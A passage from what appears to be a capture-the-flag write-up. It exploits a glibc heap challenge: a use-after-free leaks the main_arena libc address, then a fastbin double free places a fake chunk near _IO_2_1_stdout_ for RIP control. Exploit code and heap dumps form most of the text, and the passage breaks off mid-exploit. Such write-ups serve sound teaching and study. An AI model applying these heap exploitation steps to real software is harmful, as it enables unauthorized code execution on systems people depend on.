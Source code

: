```r  
0x55a76febb040: 0x0000000000000000      0x0000000000000051  
0x55a76febb050: 0x0000000000000000      0x00000000000000f1  
0x55a76febb060: 0x000055a76febb041      0x0000000000000000  
```

Now, when we free the `chunk[1]` it will go into the unsorted bin and the `fd`
and `bk` would be populated with the `main_arena` address, hence using the UAF
from the `show` function, we will get the `main_arena` address, apparently,
the LIBC base address.

```py  
free(1)  
libc_leak = show(1)[1:7]  
libc_leak = u64(libc_leak+b"\x00\x00")  
libc.address = libc_leak - 0x3c4b78  
```  
Heap:-

```r  
0x55962973d040: 0x0000000000000000      0x0000000000000051  
0x55962973d050: 0x0000000000000000      0x00000000000000f1  
0x55962973d060: 0x00007fc95f874b78      0x00007fc95f874b78  
```

# Preparing for the RIP Control

To do the said, we have to go the way, we will first create a fake chunk on
top of the `_IO_2_1_stdout_`, at best we do this because implying many of the
few techniques of simply overwriting the `__malloc_hook` from here didn't
worked, so to get the RIP control, the way to go from here is create a chunk
of some sort near the `_IO_2_1_stdout_`.

Now, first we will attempt to make the chunk of size `0x71` and peform double
free to create chunk at the `_IO_2_1_stdout` by overwriting the `fd`:-

```py  
malloc(0,0x40,b"A")  
malloc(1,0x40,b"B")  
malloc(2,0x40,b"C")

malloc(0,0x60,b"A")  
malloc(1,0x60,b"B")  
malloc(2,0x60,b"C")

free(0)  
free(2)  
free(0)  
```

Now, we will overwrite the `fd` of the `chunk[0]` with the an address from the
`_IO_2_1_stdout` region such that it would suffice the size check.

```py  
malloc(0,0x60,p64(IO_2_1_stdout))  
malloc(5,0x60,"A")  
malloc(2,0x60,"B")  
malloc(3,0x60,b"C"*3+p64(0x0)*4+p64(0x71)+p64(0x0))  
```
